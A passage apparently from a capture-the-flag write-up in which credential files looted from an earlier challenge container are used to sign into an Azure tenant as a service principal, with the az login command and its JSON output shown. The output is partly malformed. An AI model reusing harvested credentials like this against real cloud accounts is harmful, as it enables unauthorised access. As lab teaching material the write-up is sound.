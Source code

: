 ![b6fa3141fe4b8118ccc4afe6500079ab.png](/assets/brokenAzure.cloud/b6fa3141fe4b8118ccc4afe6500079ab.png)

We downloaded .pem and .ovpn files from the previous challenge container and used them to log into Azure.
```
──(kali㉿kali)-[/home/kali]
└─PS> az login --service-principal --username 8f2b67d8-6501-4a47-9e6b-951363b2588a --tenant 4452edfd-a89d-43aa-8b46-a314c219cc50 --password /tmp/SECURA{CENSORED_FLAG}.pem --allow-no-subscriptions
[
  {
    "cloudName": "AzureCloud",
    "id": "4452edfd-a89d-43aa-8b46-a314c219cc50",
    "isDefault": true,
    "name": "N/A(tenant level account)",
    "state": "Enabled",
    "tenantId": "4452edfd-a89d-43aa-8b46-a314c219cc50",
    "user":```json
    "user": {
      "name": "8f2b67d8-6501-4a47-9e6b-951363b2588a",
      "type": "servicePrincipal"
    }
  }
]
```
